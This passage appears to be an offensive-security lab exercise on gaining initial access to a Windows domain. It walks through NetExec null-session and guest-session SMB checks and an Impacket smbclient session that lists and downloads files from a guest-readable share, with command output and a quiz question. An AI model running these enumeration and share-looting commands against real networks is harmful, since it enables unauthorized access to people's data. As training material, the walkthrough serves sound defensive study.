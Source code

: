 ## Exercise 1: Initial Access

### 1.1. NULL Sessions

NULL Sessions are a type of connection that doesn't any credentials to the target machine, this is often disabled by default in most systems. When connecting with this type of session, you will connect as the "Anonymous Logon" built-in account.

```
nxc smb targets.txt -u '' -p ''
SMB         10.2.10.2       445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:async.local) (signing:True) (SMBv1:False) 
SMB         10.2.10.16      445    FS               [*] Windows Server 2022 Build 20348 x64 (name:FS) (domain:async.local) (signing:False) (SMBv1:False) 
SMB         10.2.10.173     445    DEV              [*] Windows 11 Build 22621 x64 (name:DEV) (domain:async.local) (signing:False) (SMBv1:False) 
SMB         10.2.10.2       445    DC               [+] async.local\: 
SMB         10.2.10.16      445    FS               [-] async.local\: STATUS_ACCESS_DENIED 
SMB         10.2.10.173     445    DEV              [-] async.local\: STATUS_ACCESS_DENIED
```

### 1.2. Guest Sessions

When an incorrect username/password are provided, Windows will default to the Guest account. This is a built-in account that is disabled by default, but can be enabled by an administrator. This account has very limited permissions, but it can be used to enumerate some information about the target machine.

```
nxc smb targets.txt -u 'guest' -p ''
SMB         10.2.10.16      445    FS               [*] Windows Server 2022 Build 20348 x64 (name:FS) (domain:async.local) (signing:False) (SMBv1:False) 
SMB         10.2.10.2       445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:async.local) (signing:True) (SMBv1:False) 
SMB         10.2.10.173     445    DEV              [*] Windows 11 Build 22621 x64 (name:DEV) (domain:async.local) (signing:False) (SMBv1:False) 
SMB         10.2.10.16      445    FS               [+] async.local\guest: 
SMB         10.2.10.2       445    DC               [-] async.local\guest: STATUS_ACCOUNT_DISABLED 
SMB         10.2.10.173     445    DEV              [-] async.local\guest: STATUS_ACCOUNT_DISABLED 
```

**Q1**: What shares are available on the `FS` machine when connected using the Guest account?

### 1.3. Looting Shares

You should be able to identify that the `public_docs` share is available on the `FS` machine as a `Guest` user, we can connect to the share and enumerate the contents.

```
smbclient.py 'guest'@fs.async.local 
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# use public_docs
# ls
drw-rw-rw-          0  Sun Apr 27 12:43:19 2025 .
drw-rw-rw-          0  Sun Apr 27 12:43:56 2025 ..
-rw-rw-rw-        608  Sun Apr 27 12:43:19 2025 migration.txt
-rw-rw-rw-        515  Sun Apr 27 12:43:19 2025 team_contact_list.csv
-rw-rw-rw-        146  Sun Apr 27 12:43:19 2025 team_contact_list.txt
#
# get team_contact_list.csv
```


[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami